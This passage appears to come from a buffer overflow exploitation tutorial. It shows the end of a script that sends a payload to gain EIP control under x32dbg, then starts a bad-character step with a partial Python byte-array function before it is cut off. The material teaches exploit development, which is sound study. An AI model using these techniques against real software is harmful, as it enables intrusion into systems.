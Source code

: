   ```python
          s.send(payload)
          s.close()

  eip_control()
  ```
  We can then relaunch the bin with the restart button in x32dbg (Note everytime you rerun the script check that it is running and not paused)
  We can now see that we control EIP because we can see our B (42424242) sent by our script  
  ![EIP](../.res/image27.png)  

### 3. Identifying Bad Characters

We now need another function to identify bad chars.
To get a list of badchars we can use the following command with ERC `ERC --bytearray` we will then get a file intitled `ByteArray_1.txt` in our working directory.
And we can then update our script:
```
def bad_chars():
	all_chars = bytes([
		0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
		0x08, 0x09, 0x0A, 0x0B, 0x0C, 0x0D, 0x0E, 0x0F,
		0x10, 0x11, 0x12, 0x13, 0x14, 0x15, 0x16, 0x17,
		0x18, 0x19, 0x1A, 0x1B, 0x1C, 0x1D, 0x1E, 0x1F,
		0x20, 0x21, 0x22, 0x23, 0x24, 0x25, 0x26, 0x27,
		0x28, 0x29, 0x2A, 0x2B, 0x2C, 0x2D, 0x2E, 0x2F,
		0x30, 0x31, 0x32, 0x33, 0x34, 0x35, 0x36, 0x37,
		0x38, 0x39, 0x3A, 0x3B, 0x3C, 0x3D, 0x3E, 0x3F,
		0x40, 0x41, 0x42, 0x43, 0x44, 0x45, 0x46, 0x47,
		0x48, 0x49, 0x4A, 0x4B, 0x4C, 0x4D, 0x4E, 0x4F,
		0x50, 0x51, 0x52, 0x53, 0x54, 0x55, 0x56, 0x57,
		0x58, 0x59, 0x5A, 0x5B, 0x5C, 0x5D, 0x5E, 0x5F,
		0x60, 0x61, 0x62, 0x63, 0x64, 0x65, 0x66, 0x67,
		0x68, 0x69, 0x6A, 0x6B, 0x6C, 0x6D, 0x6E, 0x6F,
		0x70, 0x71, 0x72, 0x73, 0x74, 0x75, 0x76, 0x77,
		0x78, 0x79, 0x7A, 0x7B, 0x7C, 0x7D, 0x7E, 0x7F,
		0x80, 0x81, 0x82, 0x83, 0x84, 0x85, 0x86, 0x87,
		0x88, 0x89, 0x8A, 0x8B, 0x8C, 0x8D, 0x8E, 0x8F,
		0x90, 0x91, 0x92, 0x93, 0x94, 0x95, 0x96, 0x97,
		0x98, 0x99, 0x9A, 0x9B, 0x9C, 0x9D, 0x9E, 0x9F,
		0xA0, 0xA1, 0xA2, 0xA3, 0xA4, 0xA5, 0xA6, 0xA7,
		0xA8, 0xA9, 0xAA, 0xAB, 0xAC, 0xAD, 0xAE, 0xAF,
		0xB0, 0xB1, 0xB2, 0xB3, 0xB4, 0xB5, 0xB6, 0xB7,
		0xB8, 0xB9, 0xBA, 0xBB, 0xBC, 0xBD, 0xBE, 0xBF,
		0xC0, 0xC1, 0xC2, 0xC3, 0xC4, 0xC5, 0xC6, 0xC7,
		0xC8, 0xC9, 0xCA, 0xCB, 0xCC, 0xCD, 0xCE, 0xCF,
		0xD0, 0xD1, 0xD2, 0xD3, 0xD4, 0xD5, 0xD6, 0xD7,
		0xD8, 0xD9, 0xDA, 0xDB, 0xDC, 0xDD, 0xDE, 0xDF,
		0xE0, 0xE1, 0xE2, 0xE3, 0xE4, 0xE5, 0xE6, 0xE7,
		0xE8, 0xE9, 0xEA, 0xEB, 0xEC, 0xED, 0xEE, 0xEF,
		0xF0, 0xF1, 0xF2, 0xF3, 0xF4, 0xF5, 0xF6, 0xF7,
		0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
```